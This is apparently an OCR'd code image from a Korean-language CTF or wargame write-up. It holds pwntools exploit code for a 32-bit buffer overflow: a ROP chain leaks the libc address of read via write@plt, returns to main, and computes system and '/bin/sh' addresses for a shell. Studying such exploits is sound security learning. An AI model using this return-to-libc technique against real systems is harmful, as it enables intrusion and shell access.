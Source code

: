 ``` python
:보통 첫 번째 ROP 공격(주소 leak) 후 프로그램을 정상 흐름으로 되돌리기 위해 main으로 점프시킴.
: 즉, "프로그램을 초기 상태로 리셋"하는 역할.
'''
read_plt = e.plt["read"]
read_got = e.got["read"]
write_plt = e.plt["write"]
write_got = e.got["write"]
main = e.symbols["main"]

'''
read_offset = libc.symbols["read"]
: libc.so.6 안에 정의된 read() 함수의 오프셋(상대 주소).
: libc는 메모리에 로드될 때 base 주소가 랜덤이지만, base + offset = 실제 주소 가 성립함.
: 따라서 leak한 read 주소에서 base를 구할 수 있음:
: libc_base = leaked_read - read_offset

system_offset = libc.symbols["system"]
: libc 안의 system() 함수 오프셋. 
: system("/bin/sh") 실행을 위해 필요
: 나중에:
: system_addr = libc_base + system_offset

sh_offset = list(libc.search(b"/bin/sh"))[0]
: libc 메모리 안에서 "/bin/sh" 문자열을 찾음.
: libc.search(b"/bin/sh") → 제너레이터 반환 (주소 후보들).
: list(...)[0] → 첫 번째 /bin/sh 문자열의 오프셋.
: 최종 실제 주소는:
: binsh_addr = libc_base + sh_offset
'''
read_offset = libc.symbols["read"]
system_offset = libc.symbols["system"]
sh_offset = list(libc.search(b"/bin/sh"))[0]

pop_ret = r.find_gadget(['pop ebp', 'ret'])[0]
pop2_ret = r.find_gadget(['pop edi', 'pop ebp', 'ret'])[0]
pop3_ret = r.find_gadget(['pop esi', 'pop edi', 'pop ebp', 'ret'])[0]

# Stage 1
'''
1. C소스에서 buf는 [ebp-0x44]의 위치에 있다. 해서 0x44 + 0x04(SFP) = 48
2. 스택의 다음 주소인 리턴주소를 wreit@ple로 설정
3. pop3_ret 가젯이 실행되면서 스택 값들이 레지스터/스택으로 들어감.
   결과적으로:
   fd = 1 (stdout)
   buf = read_got (GOT 에 적힌 read 실제 libc 주소)
   size = 4(4바이트만 출력)
   즉, write(1, read_got, 4) 실행 -> read 실제 주소 leak
4. write() 호출이 끝나면 main() 으로 복귀
   프로그램이 초기 상태로 리셋 -> 두 번째 공격 가능
'''
payload = b'A' * 0x48
payload += p32(write_plt)
payload += p32(pop3_ret)
payload += p32(1) + p32(read_got) + p32(4)
payload += p32(main)

'''
c 소스의 read(0, buf, 0x400); 코드에서 send로 보내는 payload를 buf에 저장함

출력시점 (write 호출)
write(1, buf, 64) 에 의해 buf의 64바이트만 출력됨.
즉, 우리가 넣은 "A"*0x40까지만 출력되고, 그 뒤에 있는 "A"*8 은 출력되지 않음.
'''
```